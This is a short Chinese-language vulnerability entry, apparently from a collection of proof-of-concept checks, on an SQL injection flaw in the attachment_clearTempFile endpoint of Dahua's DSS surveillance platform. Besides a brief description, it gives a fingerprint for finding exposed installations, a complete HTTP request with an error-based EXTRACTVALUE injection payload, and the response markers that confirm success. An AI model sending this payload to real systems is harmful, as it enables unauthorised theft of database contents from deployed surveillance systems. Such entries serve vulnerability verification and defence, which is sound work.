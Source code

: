 ﻿# 大华DSS监控系统 attachment_clearTempFile SQL注入漏洞

> 更新时间：2024-03-23

> 漏洞编号：

> 漏洞说明：DSS数字监控系统是在通用的安防视频监控系统的基础上进行设计开发，除了普通安防视频监控所共有的实时监视、云台操作、录像回放、报警处理、设备管理等功能外，更多地考虑到如何方便用户使用系统的人机工程。其接口attachment_clearTempFile存在sql注入漏洞，攻击者可通过报错注入获取数据库敏感信息。

> 漏洞特征：body="include/script/dahuaDefined/"

> 验证脚本：HTTP

```
GET /portal/attachment_clearTempFile.action?bean.RecId=1%27)%20AND%20EXTRACTVALUE(1,concat(0x7e,md5(1),0x7e))%20or%20(%2799%27=%2799&bean.TabName=1 HTTP/1.1
Accept: */*
Connection: close
```

> 响应代码特征：200

> 响应内容特征：a0b923820

> 上传文件定位：

> 验证文件来源：大华DSS监控系统 attachment_clearTempFile SQL注入漏洞.poc

